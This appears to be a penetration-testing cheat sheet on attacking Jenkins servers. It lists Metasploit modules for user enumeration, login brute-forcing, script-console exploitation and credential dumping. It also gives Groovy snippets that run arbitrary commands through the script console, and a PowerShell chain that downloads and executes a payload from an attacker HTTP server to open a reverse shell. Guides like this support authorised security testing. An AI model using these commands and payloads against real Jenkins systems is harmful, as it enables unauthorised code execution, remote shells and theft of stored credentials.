 # Jenkins

## Enumeration

In order to search for interesting Jenkins pages without authentication like \(_/people_ or _/asynchPeople_, this lists the current users\) you can use:

```text
msf> use auxiliary/scanner/http/jenkins_enum
```

Check if you can execute commands without needing authentication:

```text
msf> use auxiliary/scanner/http/jenkins_command
```

Without credentials you can look inside _**/asynchPeople/**_ path or  _**/securityRealm/user/admin/search/index?q=**_ for **usernames**.

You may e ale to get the Jenkins version from the path _**/oops**_

![](../../.gitbook/assets/image%20%28422%29.png)

## Bruteforce

**Jekins** does **not** implement any **password policy** or username **brute-force mitigation**. Then, you **should** always try to **brute-force** users because probably **weak passwords** are being used \(even **usernames as passwords** or **reverse** usernames as passwords\).

```text
msf> use auxiliary/scanner/http/jenkins_login
```

## Exploiting Vulnerabilities

{% embed url="https://github.com/gquere/pwn\_jenkins" %}

## Code Execution

There are 3 ways to get **code execution** with Jenkins.

### **Create a new project**

This method is very noisy because you have to create a hole new project \(obviously this will only work if you user is allowed to create a new project\).

1. Create a new project \(Freestyle project\)
2. Inside **Build** section set **Execute shell** and paste a powershell Empire launcher or a meterpreter powershell \(can be obtained using _unicorn_\). Start the payload with _PowerShell.exe_ instead using _powershell._
3. Click **Build now**

\*\*\*\*

Go to the projects and check **if you can configure any** of them \(look for the "Configure button"\):

![](../../.gitbook/assets/image%20%28228%29.png)

Or **try to access to the path** _**/configure**_ in each project \(example: /_me/my-views/view/all/job/Project0/configure_\).

If you are allowed to configure the project you can **make it execute commands when a build is successful**:

![](../../.gitbook/assets/image%20%2887%29.png)

Click on **Save** and **build** the project and your **command will be executed**.  
If you are not executing a reverse shell but a simple command you can **see the output of the command inside the output of the build**.

### **Execute Groovy script**

Best way. Less noisy.

1. Go to _path\_jenkins/script_
2. Inside the text box introduce the script

```python
def process = "PowerShell.exe <WHATEVER>".execute()
println "Found text ${process.text}"
```

You could execute a command using: `cmd.exe /c dir`

In **linux** you can do:  **`"ls /".execute().text`**

If you need to use _quotes_ and _single quotes_ inside the text. You can use _"""PAYLOAD"""_ \(triple double quotes\) to execute the payload.

**Another useful groovy script** is \(replace \[INSERT COMMAND\]\):

```python
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = '[INSERT COMMAND]'.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println "out> $sout err> $serr"
```

### Reverse shell in windows

You can prepare a HTTP server with a PS reverse shell and use Jeking to download and execute it:

```python
scriptblock="iex (New-Object Net.WebClient).DownloadString('http://192.168.252.1:8000/payload')"
echo $scriptblock | iconv --to-code UTF-16LE | base64 -w 0
cmd.exe /c PowerShell.exe -Exec ByPass -Nol -Enc <BASE64>
```

### MSF exploit

You can use MSF to get a reverse shell:

```text
msf> use exploit/multi/http/jenkins_script_console
```

## POST

Dump Jenkins credentials using:

```text
msf> post/multi/gather/jenkins_gather
```

## References

{% embed url="https://leonjza.github.io/blog/2015/05/27/jenkins-to-meterpreter---toying-with-powersploit/" %}

{% embed url="https://www.pentestgeek.com/penetration-testing/hacking-jenkins-servers-with-no-password" %}

